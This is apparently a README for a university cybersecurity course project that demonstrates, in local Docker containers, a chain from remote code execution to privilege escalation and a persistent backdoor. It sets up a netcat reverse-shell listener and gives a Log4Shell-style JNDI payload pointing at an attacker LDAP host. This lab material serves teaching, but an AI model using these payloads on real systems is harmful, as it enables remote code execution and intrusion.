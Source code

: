 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.13.0-19`, default in Ubuntu 21.04)
  You can use `uname -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/marco-giacobbe/rce-to-full-compromise-demo.git
cd rce-to-full-compromise-demo
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```

### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.

### 5. Perform the attack via Web Interface
For example:
  - Submit the payload `${jndi:ldap://attacker:1389/Exploit}` through the vulnerable form on the frontend site.
  - Request the page `http://localhost:8080/${jndi:ldap://attacker:1389/Exploit}`
  - You can also build your own payload.
